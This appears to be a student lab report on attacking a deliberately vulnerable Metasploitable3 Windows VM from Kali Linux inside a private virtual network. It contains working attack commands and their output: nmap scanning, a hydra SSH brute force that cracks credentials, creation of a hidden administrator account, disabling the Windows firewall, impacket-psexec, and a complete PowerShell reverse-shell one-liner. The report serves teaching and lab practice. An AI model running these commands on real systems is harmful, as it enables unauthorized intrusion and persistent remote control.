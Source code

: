 # Execution of simple demo of a remote and reverse shell 

##                          1. Introduction

In this report I will try to show how easy it is to obtain capabilities of controlling vulnerable windows systems through remote and  reverse shell technique.

## 2. Our Set-Up
In order to execute the demo we will need to have 2 VMs . One is  ```Kali Linux``` and another one is  ```metasploitable3``` (Windows version). I will use  ```Oracle VirtualBox``` to run both. We suppose that both systems stay in the same network. To make sure that both systems are on the same network, we must have equal network settings for both VMs.

That look like this:

![](Screenshot%201.png)

So our starting point gonna be:

![](Screenshot%202025-07-01%20000602.png)

NOTE:
In order to enter the  ```Kali Linux``` system we will need to enter  ```kali:kali``` credentials and for ```metasploitable3``` we will use  ```vagrant:vagrant``` credentials. After this we will have completly functional 2 operating systems

## 3. Discovery

To start, as an attacker (```Kali Linux User```), we first need to find or discover our victim (```Windows User```). By this I mean we need to find its IP address.

First of all we need to execute (on ```Kali Linux system```)  ```ifconfig ``` command to know own IP address 

output (only relevant part) is 
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
inet 10.0.2.15  netmask 255.255.255.0  broadcast 10.0.2.255
inet6 fe80::4bfb:2c17:c56e:39fc  prefixlen 64  scopeid 0x20<l
```
So now we know that our IP address is ```10.0.2.15``` and netmask is  ```255.255.255.0.```
After this we have to find other hosts on the same network, to do this we execute the  ```nmap 10.0.2.0/24```command. It will take a bit of time. Output (its relevant part ) of command will give us 

 ```Nmap scan report for 10.0.2.4
Host is up (0.0011s latency).
Not shown: 990 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
4848/tcp  open  appserv-http
5985/tcp  open  wsman
8080/tcp  open  http-proxy
8383/tcp  open  m2mservices
9200/tcp  open  wap-wsp
49153/tcp open  unknown
49154/tcp open  unknown
MAC Address: 08:00:27:D7:CC:D8 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
 ```
This is information about potential victim. To get more detailed information we can execute  ```nmap -sV 10.0.2.4``` and get 

 ```Nmap scan report for 10.0.2.4
Host is up (0.0011s latency).
Not shown: 990 filtered tcp ports (no-response)
PORT      STATE SERVICE  VERSION
21/tcp    open  ftp      Microsoft ftpd
22/tcp    open  ssh      OpenSSH 7.1 (protocol 2.0)
80/tcp    open  http     Microsoft IIS httpd 7.5
4848/tcp  open  ssl/http Oracle Glassfish Application Server
5985/tcp  open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8080/tcp  open  http     Sun GlassFish Open Source Edition  4.0
8383/tcp  open  http     Apache httpd
9200/tcp  open  http     Elasticsearch REST API 1.1.1 (name: Jane Foster; Lucene 4.7)
49153/tcp open  msrpc    Microsoft Windows RPC
49154/tcp open  msrpc    Microsoft Windows RPC
MAC Address: 08:00:27:D7:CC:D8 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
 ```
And now we have an IP address and a list of exposed services, ports and, more importantly, the versions of the software of a victim machine. So theoretically we can analyze the list of services, find exploits for any of them and use them for attacking, but we will take an easier path.

## 4. Password Cracking

In this part we will try to crack victims credentials through remote service  ```ssh```,  using  ```hydra```. 
To do so we will execute  ```hydra -L metasploitable3-short.txt -P metasploitable3-short.txt 10.0.2.4 ssh``` . Where ```hydra``` is the name of a program for brute forcing, ```metasploitable3-short.txt``` is a prepared list of probable logins and passwords of windows systems that are not configured properly. 
So, in short, we try to find valid combinations of username and password to access via ```ssh``` ```Metasploitable3``` machine at 10.0.2.4.

The Result of this command gonna be 

 ```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-30 18:55:20
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 900 login tries (l:30/p:30), ~57 tries per task
[DATA] attacking ssh://10.0.2.4:22/
[22][ssh] host: 10.0.2.4   login: vagrant   password: vagrant
[22][ssh] host: 10.0.2.4   login: Administrator   password: vagrant
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-30 18:55:49 
```

## 5. Controlling Victim’s PC via SSH

So now we know, we can access via ```ssh``` victim’s computer using one of 2 credentials that ```hydra``` has found . Let's do this with  ```ssh vagrant@10.0.2.4```. After entering the password we have access to the victim's pc via ```ssh```.

![](Screenshot%202025-07-01%20010144.png)

We can even add a new user and make it Administrator!!! 
With a command :
 ```
net user {nama new user} {password of new user}  /add
net localgroup administrators {name of  new user} /add 
  ```
![](Screenshot%202025-07-01%20011150.png)



## 6. Taking control of Victim’s PC via Reverse shell

In this chapter I will show how to gain more or less the same control of the victim's system but using the ```Reverse shell method``` , instead of using ```ssh``` connection. 
To execute this demo we will need to enter this command in our ```ssh``` shell  ```netsh advfirewall set allprofiles state off``` . This command temporarily turns off Windows Firewall, that otherwise would not let successful execution of this demo. After this, we will use the ideal tool for this goal, that is to say  ```psexec.py``` (part of the  ```Impacket suite```, already present in Kali). The beauty of  ```psexec``` is that, if the authentication is successful, it directly provides you with an interactive shell on the target system. But before we need to start our  ```netcat listener``` in a Kali terminal (preferably in another tab) with  ```nc -lnvp 4242```

![](Screenshot%202025-07-01%20013143.png)

After this we need to, in a second Kali terminal, run  ```psexec.py``` with the credentials we found. 
With a command :
 ```impacket-psexec vagrant:vagrant@10.0.2.4 ``` (in our case )
If  ```psexec.py``` is successful, it will directly give us a Windows command prompt  (e.g. ``` C:\Windows\system32>)```. 

![](Screenshot%202025-07-01%20013708.png)
Like this

We are now in control!

(To complete the ```Reverse Shell``` demo)  From the prompt we got with  ```psexec```, we can now launch the payload for the reverse shell that will connect to your netcat listener. A common payload for Windows uses PowerShell:

 ```powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.2.15',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()" ```

By copying and pasting this entire command into the ```psexec``` prompt. We will see our netcat listener start up, giving us an interactive PowerShell shell.

![](Screenshot%202025-07-01%20014844.png)


a little example of what we can do 

![](Screenshot%202025-07-01%20014909.png)

That's all 

## REFERENCES
In order to build this demo I used the teacher's website and slides. I also got help with commands from google’s gemini


